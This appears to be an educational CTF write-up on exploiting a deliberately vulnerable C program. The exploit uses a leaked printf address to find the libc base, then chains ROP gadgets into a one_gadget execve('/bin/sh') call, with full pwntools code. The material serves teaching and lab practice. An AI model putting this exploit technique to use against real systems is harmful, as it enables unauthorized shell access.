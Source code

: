 # Simple PWN - 0x08(one_gadget with ROP)
###### tags: `CTF` `PWN` `eductf`

## one_gadget background
[Day25: [Misc] 我從來沒想過我會害怕寫 code](https://ithelp.ithome.com.tw/articles/10226977)
> 原理是在 `glibc` 裡面有很多會透過 `execve` 執行 `/bin/sh`、再調用外部系統指令的 assembly，當 explolit 已經得知 `libc` 的位之後而且可以控制 RIP 之後，就可以直接跳該位置達成 shell out，不需要再辛苦堆 stack 上的參數

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IOBNF, 0);

    char s[0x10];

    printf("Your libc: %p", printf);
    read(0, s, 0x100);

    return 0;
}
```
* The program has buffer overflow, however it has no backdoor method can access and has no global variable can write shellcode. Thus, we can consider to use `ROP` to get shell.
* Note that, it must be a dynamic library, so DO NOT use `-static` to compile it.
    ```bash!
    gcc -o one_gadget_with_rop one_gadget_with_rop.c -no-pie -fno-stack-protector -z norelro -zexecstack
    ```

## Exploit
* First, we use [<font color="FF0000">`ldd`</font>](https://shengyu7697.github.io/linux-ldd/) command to find what library the program will use.
    ![](https://imgur.com/ycRb8Tv.png)
* In addition, we use `one_gadget` command to find `execvs`
    * Note that, how to use it can refer to [one_gadget用法](https://blog.csdn.net/weixin_43092232/article/details/105085880)
    * We use `0xebcf8 execve("/bin/sh", rsi, rdx)` as our method
    ![](https://imgur.com/Y7BBH5J.png)
        * <font color="FF0000">Note:</font> it has 3 constraint so that we can get the shell
        ```bash!
        address rbp-0x78 is writable
        [rsi] == NULL || rsi == NULL
        [rdx] == NULL || rdx == NULL
        ```
* Then, we use `one_gadget` command to get `ROP` chain
    ```bash!
    ROPgadget --binary one_gadget_with_rop --only "pop|ret" > one_gadget
    vim one_gadget
    ```
    You can see that because we didn't compile with library, the gadget that we may can use is very few.
    ![](https://imgur.com/DuGINHL.png)
    The solution is using the gadget that `libc` have:
    ```bash!
    $ ROPgadget --binary  /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" > one_gadget
    $ vim one_gadget
    ```
    We must satisfied one_gadget constraint. `0x90529` and `0x2be51` are the offset of `/lib/x86_64-linux-gnu/libc.so.6`. Therefore, if we want to call these gadget, <font color="FF0000">we must find out the real base address of `/lib/x86_64-linux-gnu/libc.so.6`</font>.
    ![](https://imgur.com/3h5PqcO.png)
    ![](https://imgur.com/Z2bBbhJ.png)
* Because, `ASLR` is turn on in default, so the address of library will be random, we just know the offset of library. In original code, it told us the `printf` address in `/lib/x86_64-linux-gnu/libc.so.6` → <font color="FF0000">`0x7ffff7def770`</font>
    ![](https://imgur.com/nuYGx24.png)
    Used `gdb` can find the current address of library → <font color="FF0000">`0x7ffff7d8f000`</font>
    ![](https://imgur.com/Et3r2hI.png)
    Then we can know the offset and construct apart of payload as below 
    $$0x7ffff7def770 - 0x7ffff7d8f000 = 0x60770$$
    ```python!=
    from pwn import *
    import sys

    context.arch = 'amd64'

    r = process('./one_gadget_with_rop')

    r.recvuntil("Your libc: ")
    libc = int(r.recv(14), 16) - 0x60770
    info(f"libc: {hex(libc)}")
    ```
* And prepare our gadget:
    ```python!=11
    pop_rdx_rbx_ret = libc + 0x90529
    pop_rsi_ret = libc + 0x2be51
    ```
* Construct whole payload with considering the constraint:
    ```python!=13
    r.send(b'a'*0x10 + p64(0x404000) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0) + p64(libc+0xebcf8))
    r.interactivae()
    ```
    * `b'a'*0x10` is for `$rsi`
    * `p64(0x404000)` is an arbitrary writable and readable address for `$rbp-0x78` one of the constraint of one_gadget
    * `p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0)` is what we did in [last lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/rki3GF0cs) of `ROP`
    * `p64(libc+0xebcf8)` is the one_gadget that we choose at the beginning.
* Finally, we got shell!!!
    ![](https://imgur.com/iIETaBy.png)


## Reference
[Linux ldd 查看執行檔執行時需要哪些 library](https://shengyu7697.github.io/linux-ldd/)
[Pwn week1](https://youtu.be/ktoVQB99Gj4)